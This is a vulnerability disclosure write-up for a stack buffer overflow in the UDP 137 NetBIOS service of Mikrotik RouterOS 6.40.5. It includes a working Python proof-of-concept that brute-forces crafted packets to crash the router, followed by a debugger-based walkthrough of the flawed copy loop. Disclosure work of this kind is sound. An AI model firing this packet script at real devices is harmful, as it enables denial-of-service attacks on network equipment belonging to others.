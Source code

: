 

# Mikrotik 6.40.5 路由器 137 接口活动参数缓冲区溢出漏洞



## 1.Basic Information



- **Vulnerability Type**: Buffer Overflow

  **Description**: A buffer overflow vulnerability exists in the Mikrotik 6.40.5 firmware. The service on UDP port 137 is vulnerable, allowing remote attackers to send specially crafted packets that trigger a buffer overflow, resulting in a Denial of Service (DoS).

  **Affected Devices and Versions**:

  - Mikrotik RouterOS 6.40.5
  - Firmware version: Mikrotik 6.40.5



## 2. Proof of Concept (PoC)

The following Python script demonstrates the vulnerability:

```py
import socket
import time

def send_netbios_name_query(target_ip):
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

    ## last byte is the brute-force target
    base_packet = bytes.fromhex(
        "82280110000100000000000024434B41414141414141414141414141414141414141414141414141414141414141414141"
    )

    for i in range(0x01, 0x100):
        packet = base_packet + bytes([i])
        print((packet))
        print(f"[+] Sending packet with last byte: {i:#04x}")
        s.sendto(packet, (target_ip, 137))
        time.sleep(0.01)  # Optional: brief delay to reduce packet loss

    print("[*] All 256 NetBIOS queries sent.")
    s.close()

send_netbios_name_query("192.168.72.140")  # Replace with your RouterOS IP
```



## 3.Exploitation Principle

A buffer overflow occurs in the sub_8060430 function, causing the return address to be overwritten. The overflow happens within the sub_8054607 function. Upon examining the function, we can see that due to the presence of a while loop, the loop only exits when v2 becomes 0; otherwise, it continuously copies data from a2 to a1.
![image](https://github.com/user-attachments/assets/00ea7384-5e73-414e-90bc-d1306a48be00)

Tracing back, we find that the a3 argument is actually a stack address passed from the previous function, meaning it has limited space. However, in the sub_8054607 function, there is no restriction on the range of memory being written to, which results in a stack overflow.To trigger the sub_8054607 function, the UDP payload must be longer than 49 bytes. Although a subsequent qmemcpy limits the amount of data copied from the received UDP packet, the sub_8054607 function itself lacks such bounds checking.
![image](https://github.com/user-attachments/assets/0be3a610-bc57-4fff-8abf-876ee329e922)

Debugging shows that the first check is passed successfully.
![image](https://github.com/user-attachments/assets/82f9e6f2-476f-45a3-9cb9-04690eaa75a6)

Next, 0x32 bytes of data are copied from the received UDP packet.
![image](https://github.com/user-attachments/assets/8c8bfff6-6273-44c5-bac1-4f883b314e4b)

The result after copying is as follows:
![image](https://github.com/user-attachments/assets/f5ae48a0-d8c7-4476-bad7-eb80ee408f48)

Later, the sub_8054607 function is called, where the length of the first copy operation is determined by the 13th byte after the previously copied data. The copying starts just after the 0x20-byte offset.
![image](https://github.com/user-attachments/assets/ce777607-1c89-44e9-b0a9-fa1cbd45a3fe)

After the first round of copying is completed — that is, when 0x20 bytes have been copied — the byte immediately following the last character of this round is treated as the length for the next round of copying. In this case, the value is 0x41.
![image](https://github.com/user-attachments/assets/19d84d5b-cddc-4262-9c44-560d034471d9)

Then proceed to start the next round of assignment
![image](https://github.com/user-attachments/assets/c12c4910-de26-488f-a5af-74a62a61a5b3)

Continue to assign values later:
![image](https://github.com/user-attachments/assets/a6a6bb3b-eeb2-4845-aff9-984668764711)

As long as the value retrieved from memory this time is not 0 (indicating the length of the next assignment), the assignment will continue downward until the retrieved length is 0, and then the loop will exit. However, as mentioned earlier, the length we can control is only 0x32 bytes, so we need to make use of the values that already exist on the stack in the program.

Finally, call the end position of the sub_8054607 function to check the stack space at this time and the position of the return value of the upper-level function (because the destination address of the assignment is inside the stack of the upper-level function) :
![image](https://github.com/user-attachments/assets/b8ac0682-b0c7-4f3f-8d4b-1c2f19b3d245)

Finally, the function returned with an error and exited:
![image](https://github.com/user-attachments/assets/12238d33-ea41-499d-926d-a9d63259075c)

To increase the probability of denial of service, we can try to blast the first or second round multiple times... .. By combining the lengths, try different numbers of rounds as many times as possible to make the number of cycles of this round as many as possible each time the explosion occurs. Finally, the purpose of overwriting the return value of the upper-level function is achieved.
The idea of the blasting script: We set the assignment length of the first round to 0x24：

![image](https://github.com/user-attachments/assets/5477f55a-2133-4991-9a93-6b1479be4874)

It is followed by 23 bytes, and the byte immediately following is the length of the second round of assignment. We can perform an explosion to maximize the use of the 1 to 255 pieces of data on the original stack to explosion the length of the third round of assignment (this will continue to affect the subsequent rounds and thus try more combinations) :
Compared with the non-blasting script: The overflow length of one attempt is not sufficient to cover the return address of the upper-level function sub_8060430
![image](https://github.com/user-attachments/assets/89096755-8a90-4787-9e19-fd0c7269f17f)

Run the blasting script at this time:
Finally, there will be a combination that overwrites the return value of the upper-level function, resulting in dos

![image](https://github.com/user-attachments/assets/f2e59d8b-84fa-4a7c-aa54-0a5c198b4e42)
![image](https://github.com/user-attachments/assets/eba41375-edfe-473f-b1d1-bc5362a8a34f)

## 4. Repair suggestions
Optimize the sub_8054607 function and add a length limit for assignment



## 5. Criteria for Determining a 0day Vulnerability

Searching the CVE database using the keywords "Mikrotik 137 port" did not reveal any related vulnerabilities (typically, directly searching for the interface name in historical vulnerability records can find similar series of vulnerabilities).






